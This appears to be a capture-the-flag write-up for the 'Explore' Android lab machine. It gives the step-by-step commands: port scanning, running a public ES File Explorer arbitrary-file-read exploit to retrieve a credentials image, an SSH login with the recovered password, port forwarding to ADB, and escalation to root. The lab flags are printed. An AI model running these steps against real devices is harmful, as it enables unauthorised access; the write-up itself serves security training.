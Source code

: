 ![Explore.PNG](/assets/Explore/Explore.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.247
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.247
```

**Output**
```bash
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
33245/tcp open     unknown
42135/tcp open     unknown
```

3. Analyze the services are running in ports discovered

```bash
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
```

4. With `searchsploit` search **Es File Explorer**
```bash
┌──(root㉿kali)-[/home/kali]
└─| searchsploit 'es file explorer'
```

**Output**
```bash
--------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- -------------------------
ES File Explorer 4.1.9.7.4 - Arbitrary File Read                                 | android/remote/50070.py

```

5. Copy the exploit in **current directory**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| searchsploit -m android/remote/50070.py
```

6. Dowload file `creds.jpg`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```

7. Open image

![creds.PNG](/assets/Explore/creds.PNG)


8. Login with ssh 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh kristi@10.10.10.247 -p 2222
```

9. Cat **user flag**
```bash
:/sdcard $ cat user.txt                                                        
f32017174c7c7e8f50c6da52891ae250
```

10. Look ports open in device

```bash
:/sdcard $ netstat -nat
Active Internet connections (established and servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      1 10.10.10.247:52016      1.0.0.1:853             SYN_SENT   
tcp        0      1 10.10.10.247:57502      1.1.1.1:853             SYN_SENT   
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:45905 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0      0 ::ffff:127.0.0.1:44549  :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.1:51540 ESTABLISHED
```

* Adb (Android Debug Bridge) allows communication with an instance of an emulator.

11. Do Port Forwarding **Port: 5555** for our port 5555 be port 5555 the target machine

```bash
┌──(root㉿kali)-[/home/kali]
└─| sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
```

---


* Now our port 5555 is open and running the service of port 5555 target's machine
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| lsof -i:5555
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     30484 root    4u  IPv6  85071      0t0  TCP localhost:5555 (LISTEN)
ssh     30484 root    5u  IPv4  85072      0t0  TCP localhost:5555 (LISTEN)
```


12. Spawn a shell and login how root without password

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| adb -s localhost:5555 shell
```

**Output**
```bash
x86_64:/ $ 
```

---
```bash
x86_64:/$su                                                                                         
:/ # whomai
root
```

13. Cat a **root flag**

```bash
:/ # cd data
:/data # cat root.txt                                                          
f04fc82b6d49b41c9b08982be59338c5
```